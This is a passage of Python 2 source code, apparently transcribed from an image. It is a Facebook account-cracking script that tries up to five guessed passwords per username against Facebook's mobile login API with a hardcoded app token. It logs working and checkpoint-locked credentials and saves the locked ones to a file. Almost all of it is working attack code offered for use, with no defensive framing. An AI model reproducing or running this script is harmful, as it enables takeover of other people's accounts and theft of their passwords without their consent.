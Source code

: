 					cpb.append(user+pass1)
				else:
					data2 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q2 = json.loads(data2.text)
					if "access_token" in q2:
						print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass2
						oks.append(user+pass2)
					else:
						if "www.facebook.com" in q2["error_msg"]:
							print "[Checkpoint] " + user + " | " + pass2
							cps = open("checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							data3 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q3 = json.loads(data3.text)
							if "access_token" in q3:
								print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass3
								oks.append(user+pass3)
							else:
								if "www.facebook.com" in q3["error_msg"]:
									print "[Checkpoint] " + user + " | " + pass3
									cps = open("checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									data4 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q4 = json.loads(data4.text)
									if "access_token" in q4:
										print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass4
										oks.append(user+pass4)
									else:
										if "www.facebook.com" in q4["error_msg"]:
											print "[Checkpoint] " + user + " | " + pass4
											cps = open("checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
										else:
											data5 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q5 = json.loads(data5.text)
											if "access_token" in q5:
												print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass5
												oks.append(user+pass5)
											else:
												if "www.facebook.com" in q5["error_msg"]:
													print "[Checkpoint] " + user + " | " + pass5
													cps = open("checkpoint.txt", "a")
													cps.write(user+"|"+pass5+"\n")
													cps.close()
													cpb.append(user+pass5)
												else: